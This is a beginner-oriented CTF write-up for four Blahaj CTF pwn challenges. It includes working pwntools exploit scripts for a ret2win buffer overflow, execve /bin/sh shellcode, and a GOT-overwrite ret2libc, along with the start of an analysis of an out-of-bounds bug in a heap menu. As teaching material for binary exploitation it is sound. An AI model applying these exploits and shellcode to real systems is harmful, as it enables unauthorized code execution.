




Blahaj CTF was an entry-level CTF that was targeted at secondary school and JC students in Singapore. Having not touched pwn for awhile, the pwn challenges were fun, refreshing and even challenging. There were a total of 4 pwn challenges, 3 simpler ones and 1 challenging one. The writeups for the 4 challenges are below and in increasing difficulty.

This writeup aims to be dummy-friendly, and a good guide for absolute beginners to learn binary exploitation.

## CARS

> I've been playing around with this reporting system for "cyber affairs", generating ticket after ticket in hopes of breaking it. I have a feeling that there's a way to access the admin panel...
> 
> Attachments: [cars](./attachments/pwn/cars/cars), [cars.c](./attachments/pwn/cars/cars.c)

### Analyzing the program 

In order to exploit the program, we need to be able to understand the program and identify the vulnerability.

#### Black-Box analysis

We can first run `checksec` and run the program to get a feel for the program's functionality.

```sh
➜ checksec ./cars # we will worry about this later!
[*] './cars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

➜ ./cars
Welcome to the Cyber Affairs Reporting System (CARS)
Report number: #94190627913872
Please input your student ID: 123
Please describe the incident: asd
The matter has been recorded and will be investigated. Thank you.
```

As we can see, the program is straightforward and takes in two input, let's move on to look at the source code to see what is going on behind the scenes.

#### Looking at the source code

```c
unsigned long report_number = 0;

int main()
{
    setup();
    srand(0xb1adee); // this random seed is sooo drain
    report_number = rand();
    printf("Welcome to the Cyber Affairs Reporting System (CARS)\n");
    printf("Report number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

As we can see, there is a global variable `report_number`. 

> Global variables as such are usually stored in the **bss data segment** at a fixed offset within in a program's memory space.
>
> In contrast, local variables are saved onto the **stack**, which is always random located due to ASLR _(address space layout randomization)_.

This `report_number` seems to be printed via the **printf** function, albeit in a weird way.

Instead of printing the value `report_number`, the program prints `&report_number` which will print the address in memory where `report_number` resides.

It then calls the `file_report()` function.

```c
void file_report()
{
    char input[28];
    printf("Please input your student ID: ");
    fgets(input, 28, stdin);
    printf("Please describe the incident: ");
    fgets(input, 256, stdin);
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}
```

In this function, the program takes two input via the `fgets()` function and into the `input` local variable.

The `input` variable is defined to be a character variable of size **28**. However, the second `fgets()` function attempts to read **256** characters into `input`. This results in a **buffer overflow**!

Now that we have found the vulnerability, we can move on to planning our exploit.

### Understanding how and what to Exploit

Given a buffer overflow vulnerability, what can we do? Let's first gain a deeper understanding into where our input is going, and what it will overflow into.

#### Overflow what?

```
top of stack
┌───────────────────────┐
│                       │ input
│       input[28]       │ flows
│                       │ downwards ↓
├───────────────────────┤
│                       │
│       saved rbp       │
│                       │
├───────────────────────┤
│                       │
│    return address     │
│                       │
└───────────────────────┘
bottom of stack
```

In order to understand this, we have to understand a few things. 

1. Every function has it's own allocated stack space in memory.
2. When function A **calls** function B, it will need to somehow **keep track and remember where to resume execution** when function B is returning to function A.
    - as such, it saves the **instruction pointer** on the stack, which is the return address _(or the address that function B will return to after it is done)_
    - and it saves the **stack pointer** on the stack, which points to the stack space of the caller function _(function A)_
    - this allows function B to return to function A gracefully

_tldr, the important part to understand is that the **return address** shown in the stack above is the address of the instruction that the program will return to after it is done with the `file_report` function. (which is in main function, since main function called file_report)_

This, we are able to overflow into the return address, to get the program to return to anywhere that we want.

#### Overflow how?

If we look at the source code, we can spot one very interesting function:

```c
void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

```

This function seems like our goal, which will read and give us the flag.

If we are able to overwrite our return address with the address of this function, we will be able to call this function and get the flag.

However, do we know the address of the `admin()` function? 

If we look at the `checksec` output above, we note that the program has the [**Positional Independent Executable (PIE)**](https://www.redhat.com/en/blog/position-independent-executables-pie). This essentially means that the program is loaded at a random address everytime that it is executed, which means that we will not be able to determine the `admin()` function without an address leak.

Thankfully, from the `main()` function, we saw that the program printed us the address of the `report_number` global variable. Let's see how we can get this to work.

```sh
➜ nm ./cars
# ... truncated ...
000000000000128e T admin
0000000000004090 B report_number
# ... truncated ...
```

In the output shown above, we have the offset of the `admin()` function and the `report_number` variable from the base of where the executable is loaded in memory.

Given the address of `report_number`, we can do the following:

```py
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E
```

### Exploit

In order to find the padding it takes to overwrite the return address, we can use a [cyclic/de-brujin sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to find our return address.

#### Find our padding

```sh
➜ cyclic -n8 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

➜ gdb cars

pwndbg> run
Starting program: ./cars
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to the Cyber Affairs Reporting System (CARS)
Report number: #93824992247952
Please input your student ID: a
Please describe the incident: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
The matter has been recorded and will be investigated. Thank you.

Program received signal SIGSEGV, Segmentation fault.
0x000055555555528d in file_report () at pie_rop.c:22

... truncated ...

► 0x55555555528d <file_report+113>    ret    <0x6161616161616166>

pwndbg> cyclic -n8 -l *(long*)rsp
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### Final Solution

Let's try to piece together our exploit in a single pwntools script.

```py
from pwn import *

# run the program
p = process("./cars")

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```

If we try to run this script,

```
[+] Starting local process './cars': pid 1543708
[*] Switching to interactive mode
Please input your student ID: Please describe the incident: The matter has been recorded and will be investigated. Thank you.
[*] Got EOF while reading in interactive
[*] Process './cars' stopped with exit code -11 (SIGSEGV) (pid 1543708)
[*] Got EOF while sending in interactive
```

it crashes with a SIGSEGV signal.

#### A small hiccup: MOVAPS issue

We can add a line to debug our script.

```py
from pwn import *

# run the program
p = process("./cars")

gdb.attach(p)  # ATTACH OUR DEBUGGER

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ADDRESS_OF_ADMIN = REPORT_NUMBER_ADDRESS - 0x4090 + 0x128E

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```

In our GDB, we can do `continue` to continue the program until it crashes.

```py
pwndbg> continue
Continuing.

Program received signal SIGSEGV, Segmentation fault.

[ REGISTERS / show-flags off / show-compact-regs off ]
*RSP  0x7ffd7586b648 ◂— 0x0
[ DISASM / x86-64 / set emulate on ]
 ► 0x7f7cb895b4c0 <_int_malloc+2832>    movaps xmmword ptr [rsp + 0x10], xmm1
```

As we can see, it crashes on a `movaps` instruction. If we look at the `movaps` instruction [documentation](https://c9x.me/x86/html/file_module_x86_id_180.html), it mentions

> When the source or destination operand is a memory operand, the operand must be aligned on a 16-byte boundary or a general-protection exception (#GP) is generated.

In this context, the operand is `rsp + 0x10`. This means that our `rsp` register has to be 16-byte aligned, but it is not (`0x7ffd7586b648 % 0x10 != 0x0`) -- resulting in the crash.

How can we fix this? We can simply add a single `ret` instruction to increment our `RSP` by 0x8 before we call `admin()`.

```sh
➜ ROPgadget --binary cars | grep " : ret$"
0x000000000000101a : ret
```

Let's update our solve script.

```py
from pwn import *

# run the program
p = process("./cars")

p.recvuntil(b"Report number: #")
REPORT_NUMBER_ADDRESS = int(p.recvline())
ELF_BASE = REPORT_NUMBER_ADDRESS - 0x4090
ADDRESS_OF_ADMIN = ELF_BASE + 0x128E
RET_GADGET = ELF_BASE + 0x101A

# Please input your Student ID:
p.sendline(b"id")

# Please describe the incident: (vulnerable!!)
payload = b"A"*40  # pad our return address
payload += p64(RET_GADGET)
payload += p64(ADDRESS_OF_ADMIN)
p.sendline(payload)

p.interactive()
```

```sh
➜ python3 solve.py
[+] Starting local process './cars': pid 1547936
[*] Switching to interactive mode
Please input your student ID: Please describe the incident: The matter has been recorded and will be investigated. Thank you.
blahaj{r0pp1n6_w17h_p13}
[*] Got EOF while reading in interactive
```

## warpdrive 

> with the latest and greatest in blahajtech, you can now warp anywhere on the stack!
>
> Attachments: [warp](./attachments/pwn/warpdrive/warp)

### Analyzing the program

```sh
➜ checksec warp
[*] './warp'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

We are not given with the source code. This means that we will have to throw it into a decompiler like IDA or ghidra.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (*ptr)(void); // [rsp+8h] [rbp-38h] BYREF
  char input[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 canary; // [rsp+38h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  setbuf(stderr, 0LL);
  printf("CURRENT POSITION: %p\nWARP TO:", &ptr);
  fgets(input, 40, stdin);
  __isoc99_sscanf(input, "%p", &ptr);
  ptr();
  return 0;
}
```
As we can see, the program has **No eXecute (NX)** protections disabled, and has **Read-Write-eXecute (RWX)** segments.

This means that the stack is executable, which allows us to potentially put assembly code on the stack to be executed.

As we can see, the program prints us a stack address, takes in an address as an input and execute code at our inputted address.

### Solving the challenge

Trivially, with the NX protections disabled, we can simply put shellcode _(assembly code that gives us a shell)_ on the stack, and then jump to it. We can do this using a **sys_execve** syscall.

Refer to this [syscall table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/), to see the arguments that we have to populate for a **sys_execve** syscall.

- **SYS\_EXECVE**
    - **RAX**: 0x3b
    - **RDI**: char* filename
    - **RSI**: char* argv[]
    - **RDX**: char* envp[]

Ultimately, we want to write assembly to do the following `sys_execve(0x3b, "/bin/sh", 0, 0)`

```sh
# put our /bin/sh string on the stack
mov rbx, 0x68732f6e69622f
push rbx
# move /bin/sh pointer to RDI
mov rdi, rsp

# populate argv and envp arguments
xor esi, esi  # RSI = 0
xor edx, edx  # RDX = 0

# make our execve syscall
mov ax, 0x3b
syscall
```

Finally, we can put all this in a pwntools script and solve the challenge.

```py
from pwn import *

context.arch = "amd64"
p = process("./warp")

sc = asm("""
mov rbx, 0x68732f6e69622f
push rbx
mov rdi, rsp
xor esi, esi
xor edx, edx
mov ax, 0x3b
syscall
""")

p.recvuntil(b"POSITION: ")
stack_leak = int(p.recvline(), 16)

p.sendline(hex(stack_leak + 8 + 15).encode() + b" " + sc)  # 8+15 is padding to the shellcode

p.interactive()
```

```sh
➜ python3 solve.py
[+] Starting local process './warp': pid 1555153
[*] Switching to interactive mode
WARP TO:
$ cat flag.txt
blahaj{a_w4Rp_Bl1P_&_A_jUmp}
```

## Notepad


> What kinda lousy notepad is this? Gonna go back to neovim...
>
> Attachments: [notepad](./attachments/pwn/notepad/notepad) [libc](./attachments/pwn/notepad/libc-2.31.so)

### Analyzing the program

```sh
➜ checksec notepad
[*] './notepad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

➜ ./notepad
Enter your note:
hi
Received
thanksbb


➜ ./notepad
Enter your note:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Received
Segmentation fault (core dumped)
```

If we try running the program, we see that it takes a single input and ends. If we try passing a long string in the input, it crashes. This tells us that this program might once again be vulnerable to a buffer overflow attack.

Let's have a deeper look at the program by throwing it into IDA.


```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char input[16]; // [rsp+0h] [rbp-30h] BYREF
  int size; // [rsp+10h] [rbp-20h]
  char *buf; // [rsp+18h] [rbp-18h]
  void *dest; // [rsp+20h] [rbp-10h]
  unsigned __int64 canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setup();
  size = 0x10;
  buf = (char *)malloc(0x100uLL);
  strcpy(buf, "thanksbb");
  dest = input;
  puts("Enter your note: ");
  gets(input);
  puts("Received");
  memcpy(dest, input, size);
  puts(buf);
  exit(0);
}
```

This program is straightforward. Let's summarize it below

1. Allocate a buffer on the heap of size 0x100.
2. Write the string "thanksbb" into the buffer
3. Read in an input using the `gets()` function
4. Print out the buffer, and then exit.


### Vulnerability Analysis

If we remember earlier on, the program crashed when passing in a big string. Why is that so?

If we look at the [man page for the gets() function](https://man7.org/linux/man-pages/man3/gets.3.html), we see the following:

>        Never use gets().  Because it is impossible to tell without
>        knowing the data in advance how many characters gets() will read,
>        and because gets() will continue to store characters past the end
>        of the buffer, it is extremely dangerous to use.  It has been
>        used to break computer security.  Use fgets() instead.

This means that the `gets()` function will read as many characters as you want, allowing for you to easily overflow the input buffer of size 16. This gives us a buffer overflow.

### Exploiting the Program: ret2libc

With our overflow, we can do a few things

1. We are able to overwrite `dest` and `size` to write anywhere that we want.
2. We are able to overwrite `buf` pointer, allowing us to leak any memory address.

Since there is no obvious **win** function, we will have to do employ a technique such as [ret2libc](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc).

The first part of our ret2libc requires us to leak a **libc** address, which is randomized due to [ASLR](https://www.techtarget.com/searchsecurity/definition/address-space-layout-randomization-ASLR). How can we do this?

Let's explore this concept known as the Global Offset Table (GOT).

#### The Global Offset Table



When a binary attempts to call a library function _(i.e. printf)_, it will call printf in the **procedure linkage table (PLT)**, which basically contains some instructions that will jump to the address contained **inside the printf entry in the GOT.** (refer to above image).

What this means for us is that the **GOT entries** contains the corresponding addresses to the **LIBC functions** after the first call _(after it has been resolved by the dlruntime resolver)_. Furthermore if we can corrupt and of the GOT entries, we can redirect a call to `exit()` for example, to any other functions that we want.

#### Back to leaking

Since there is no **Positional Independent Executable (PIE)** protections enabled, the memory address that the ELF is loaded at is always constant, and as a result the GOT is also always at a constant address.

This means that if we overwrite the **buf** pointer on the stack to a GOT entry, when the program calls `puts(buf)`, it will leak the contents of the GOT entry. Furthermore, we can also overwrite the GOT entry for `exit()` to the `main()` function, we can also prevent the program from exiting and loop back to main instead for our subsequent payloads.

In summary, this is our first step of our exploit

1. Overwrite `dest` to GOT entry for `exit`, and overwrite `size` be 8. We will write `main` address in `exit` GOT entry.
2. Overwrite `buf` to GOT entry for `puts`, leaking the libc address of `puts`.

#### Stage 1 Exploit

```py
from pwn import *

context.binary = elf = ELF("./notepad")
libc = ELF("./libc.so.6")
p = process('./notepad')

p.sendline(fit({
    0: elf.sym.main,  # what we want to write into exit GOT
    16: 8,            # size
    24: elf.got.puts, # buf
    32: elf.got.exit  # dest
}))

p.recvuntil(b"Received\n")
leak = unpack(p.recvline().strip(), "all")
libc.address = leak - libc.sym.puts

log.info(f"puts @ {hex(leak)}")
log.info(f"libc base @ {hex(libc.address)}")

p.interactive()
```

```sh
➜ python3 solve.py
[*] './notepad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] './libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './notepad': pid 1570328
[*] puts @ 0x7f402b1c1e50
[*] libc base @ 0x7f402b141000
[*] Switching to interactive mode
Enter your note:
$
```

Success!

### Getting a shell

Now that we have our libc address, we want to call `system("/bin/sh")`. In order to do this, we need both the address of the `/bin/sh` string and the `system` function. 

We can overwrite the `puts` GOT entry to point to `system`, and then overwrite `buf` to be a pointer to `/bin/sh`, resulting in the program calling `system("/bin/sh")`.

```py
from pwn import *

context.binary = elf = ELF("./notepad")
libc = ELF("./libc.so.6")
p = process('./notepad')

p.sendline(fit({
    0: elf.sym.main,  # what we want to write into exit GOT
    16: 8,            # size of write
    24: elf.got.puts, # argument to puts
    32: elf.got.exit  # we will write into here
}))

p.recvuntil(b"Received\n")
leak = unpack(p.recvline().strip(), "all")
libc.address = leak - libc.sym.puts

log.info(f"puts @ {hex(leak)}")
log.info(f"libc base @ {hex(libc.address)}")

binsh_ptr = next(libc.search(b"/bin/sh"))

p.sendline(fit({
    0: libc.sym.system, # what we want to write into exit GOT
    16: 8,              # size of write
    24: binsh_ptr,      # argument to puts
    32: elf.got.puts    # we will write into here
}))

p.interactive()
```

```sh
➜ python3 solve.py
[*] './notepad'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] './libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './notepad': pid 1572271
[*] puts @ 0x7f2b72cb2e50
[*] libc base @ 0x7f2b72c32000
[*] Switching to interactive mode
Enter your note:
Received
$ cat flag.txt
blahaj{4rb_r3ad_4rb_wr1te_and_rc3_in_on3??}
```

## FINALE: Christmas

This was my favourite challenge in the CTF.

> All I want for Christmas is /bin/sh
>
> Attachments: [santa](./attachments/pwn/christmas/santa) [libc.so.6](./attachments/pwn/christmas/libc.so.6)

### Analysis

#### Brief Overview

This program is rather straightforward, everything is found in a single function. I've cleaned up the decompiled code as shown below

```c
int main()
{
  int64_t choice;
  int64_t idx;
  unsigned __int64_t idxa;
  unsigned __int64_t idxb;
  int64_t size;
  char *wishlist[10];
  char buf[128];

  memset(wishlist, 0, sizeof(wishlist));
  setup();
  print_banner();

  while (1) {

    print_menu();
    fgets(buf, 128, stdin);
    choice = atoi(buf);

    switch (choice) {
      case 1:  // add wish
        puts("There's just one thing I need");
        printf("> ");
        fgets(buf, 128, stdin);
        idx = atoi(buf);
        if ( idx >= 10 )
          printf("Don't care about the presents underneath %ld and %ld\n", 0LL, 9LL);
        puts("I won't ask for much this Christmas");
        printf("> ");
        fgets(buf, 128, stdin);
        size = atoi(buf);
        if ( size >= 0 ) {
          wishlist[idx] = malloc(size);
          puts("All I want for Christmas is");
          printf("> ");
          fgets(wishlist[idx], size, stdin);
        }
        else {
          puts("Invalid size");
        }
        break;
      case 2:   // remove wish
        puts("I won't make a list");
        printf("> ");
        fgets(buf, 128, stdin);
        idxa = atoi(buf);
        if ( idxa >= 0xA )
          printf("Don't care about the presents underneath %ld and %ld\n", 0LL, 9LL);
        free(wishlist[idxa]);
        wishlist[idxa] = 0LL;
        break;
      case 3:   // view wish
        puts("Make my wish come true");
        printf("> ");
        fgets(buf, 128, stdin);
        idxb = atoi(buf);
        if ( idxb >= 0xA ) {
          printf("Don't care about the presents underneath %ld and %ld\n", 0LL, 9LL);
        }
        else if ( wishlist[idxb] ) {
          puts("All I want for Christmas is");
          puts(wishlist[idxb]);
        }
        else {
          puts("Santa, won't you bring me the one I really need?");
        }
        break;
      case 4:   // exit
        bye();
        exit(0);
      default:
        continue;
    }
  }
}
```

```sh
➜ ./santa


all i want for christmas is you!


1. Add wish
2. Remove wish
3. View wish
4. Exit
>
```

As we can see, this program serves a simple heap menu. Our options essentially are

1. malloc chunk with size and contents of choice
2. free-ing heap chunk of choice
3. reading memory in heap chunk of choice

#### Adding a Wish (malloc)

Let's take a closer look at the code that adds the wish.

This part of the code takes in 3 inputs. The first input reads in an integer that is used as the index of the program, and checked that it is no more than 10.

```c
int64_t idx;

fgets(buf, 128, stdin);
idx = atoi(buf);
if ( idx >= 10 )
    printf("Don't care about the presents underneath %ld and %ld\n", 0LL, 9LL);
```

This unseemingly small snippet of code actually contains a vulnerability. It only checks the upper bounds of the integer input _(no more than 10)_, but it does not check for a lower bound _(more than 0?)_.

Let's keep looking at the subsequent code.

```c
fgets(buf, 128, stdin);
size = atoi(buf);
if ( size >= 0 ) {
    wishlist[idx] = malloc(size);
    puts("All I want for Christmas is");
    printf("> ");
    fgets(wishlist[idx], size, stdin);
}
```

Our second input reads in an integer that is used as the size of the allocated buffer. The allocated buffer is saved at an index within the wishlist array denoted by `idx`. Finally, our last input is read into the allocated buffer.

Due to the poor index checking for the `idx` variable, we can access negative indexes of the `wishlist` array -- resulting in a OOB access of the array.

#### Removing a Wish (free)

Let's keep looking at the other parts of the code to see if they are also vulnerable. Let's now look at the switch case responsible for removing a wish.

```c
unsigned __int64_t idxa;

fgets(buf, 128, stdin);
idxa = atoi(buf);
if ( idxa >= 0xA )
    printf("Don't care about the presents underneath %ld and %ld\n", 0LL, 9LL);
free(wishlist[idxa]);
wishlist[idxa] = 0LL;
```
In this piece of code, the program once again reads in an integer that is used as an index to the freelist array. It only checks the upper bounds of the `idxa` variable. **Does that mean that it is vulnerable to Out of Bound (OOB) access of the array once again?**

If we look at the defined type of the `idxa` variable, it is defined as an **unsigned __int64_t**. The word **unsigned** means that the variable can only contain positive numbers. If we try to do something like `0 - 1` on an unsigned integer, it will simply loop back to a **large positive number** and fail the check anyways.

Not only is this code not vulnerable, it also follows good code practices, NULL-ing the heap pointer after free-ing it.

#### View a Wish

The final piece of code which views the wish is similar to this, and is not vulnerable. It simply prints the content in the allocated buffer.

#### Hidden in Plainsight

We have identified a single vulnerable, which is that we are able to write at negative indexes of the wishlist array. The question now is: **what will we overwrite by writing to negative indexes? is it useful for us?**

We can view the stack frame of the main function in IDA by double clicking on the local variable here



```c
STACK FRAME OF MAIN FUNCTION RELATIVE TO RBP

-0000000000000100 limit           dq ?
-00000000000000F8 choice          dq ?
-00000000000000F0 idx             dq ?
-00000000000000E8 size            dq ?
-00000000000000E0 wishlist        dq 10 dup(?)
-0000000000000090 buf             db 128 dup(?)
-0000000000000010                 db ? ; undefined
-000000000000000F                 db ? ; undefined
-000000000000000E                 db ? ; undefined
-000000000000000D                 db ? ; undefined
-000000000000000C                 db ? ; undefined
-000000000000000B                 db ? ; undefined
-000000000000000A                 db ? ; undefined
-0000000000000009                 db ? ; undefined
-0000000000000008 var_8           dq ?
+0000000000000000  s              db 8 dup(?)  // saved RBP
+0000000000000008  r              db 8 dup(?)  // return address
```

This shows us the offsets where the local variables are saved relative to `RBP` on the stack. As we can see, there are 4 variables that are saved at a negative address relative to the `wishlist` array.


```c
-0000000000000100 limit           dq ?
-00000000000000F8 choice          dq ?
-00000000000000F0 idx             dq ?
-00000000000000E8 size            dq ?
```

We have seen the `choice` `idx` `size` variables before, but what is `limit`? We can click on the word `limit` and press the **X** key to view cross references in IDA. We will look at one occurrence of the `limit` variable in assembly.

```asm
.text:0000000000001424                 mov     [rbp+limit], 0Ah
...
.text:000000000000152A                 cmp     rax, [rbp+limit]
.text:0000000000001531                 jl      short loc_155F
```

The assembly above corresponds to

```c
if ( idxa >= 0xA )
```

in our decompilation. What happened? Is our pseudocode a lie? The assembly shows that our pseudocode should look like

```c
int limit = 10;
// ... truncated ...
if ( idxa >= limit )
```

but our pseudocode simply does not show the `limit` variable. **This actually happens because IDA has identified our `limit` variable to be a constant value of 10 and thus optimizes away all occurences of `limit` and replace it with the corresponding constant integer.**

### Exploit Strategy

Now that we have identified that we can overwrite `choice`, `idx`, `size` and `limit`, how can it help us? We can abuse this negative OOB write to give us more flexibility in our exploit

1. By overwriting **limit**, we are able to make our **limit** a huge number. This will help us extend our OOB read from negative indexes, to even writing to large positive indexes.
    - Furthermore, this will give us an read-anywhere/arbitrary read primitive, which I will explain soon
2. By overwriting **size**, we are able to cause a heap overflow when adding a wish as we would be able to input an arbitrarily large sized integer.

#### Arbitrary Read

Assume that we have already increased our `limit` to a huge value. We will be able to view wishes _(print the contents of a pointer)_ at large indexes beyond the wishlist array. This will be crucial in bypassing both **Positional Independent Executable (PIE)** and **Address Space Layout Randomization (ASLR)** protections. In order to see what we can leak, we will look at the stack of the program in GDB.

```css
pwndbg> tele 50
                 /* start of main function's stack frame */
00:0000│ rsp     0x7fffffffde30 ◂— 0xa /* limit */
01:0008│         0x7fffffffde38 ◂— 0x1 /* choice */
02:0010│         0x7fffffffde40 ◂— 0x2 /* idx */
03:0018│         0x7fffffffde48 ◂— 0x20 /* size */

                 /* start of wishlist */
04:0020│         0x7fffffffde50 —▸ 0x5555555592a0 ◂— 'chunk 0\n'
05:0028│         0x7fffffffde58 —▸ 0x5555555592d0 ◂— 'chunk 1\n'
06:0030│         0x7fffffffde60 ◂— 0x0
... ↓            7 skipped
                 /* end of wishlist */

                 /* start of buf */
0e:0070│ rax rdi 0x7fffffffdea0 ◂— 0xa32 /* '2\n' */
0f:0078│         0x7fffffffdea8 ◂— 0x0
... ↓            2 skipped
12:0090│         0x7fffffffdec0 ◂— 0x1
13:0098│         0x7fffffffdec8 ◂— 0x1
14:00a0│         0x7fffffffded0 —▸ 0x555555554040 ◂— 0x400000006
15:00a8│         0x7fffffffded8 —▸ 0x7ffff7fe283c (_dl_sysdep_start+1020) ◂— mov rax, qword ptr [rsp + 0x58]
16:00b0│         0x7fffffffdee0 ◂— 0x6f0
17:00b8│         0x7fffffffdee8 —▸ 0x7fffffffe2e9 ◂— 0x3d04659de82d9f62
18:00c0│         0x7fffffffdef0 —▸ 0x7ffff7fc1000 ◂— jg 0x7ffff7fc1047
19:00c8│         0x7fffffffdef8 ◂— 0x10101000000
1a:00d0│         0x7fffffffdf00 ◂— 0x2
1b:00d8│         0x7fffffffdf08 ◂— 0x78bfbff
1c:00e0│         0x7fffffffdf10 —▸ 0x7fffffffe2f9 ◂— 0x34365f363878 /* 'x86_64' */
1d:00e8│         0x7fffffffdf18 ◂— 0x64 /* 'd' */
1e:00f0│         0x7fffffffdf20 ◂— 0x1000
1f:00f8│         0x7fffffffdf28 ◂— 0x3d04659de82d9f00
20:0100│ rbp     0x7fffffffdf30 ◂— 0x1
21:0108│         0x7fffffffdf38 —▸ 0x7ffff7dabd90 (__libc_start_call_main+128) ◂— mov edi, eax
                 /* end of main function's stack frame */

22:0110│         0x7fffffffdf40 ◂— 0x0
23:0118│         0x7fffffffdf48 —▸ 0x555555555398 (main) ◂— endbr64
24:0120│         0x7fffffffdf50 ◂— 0x1ffffe030
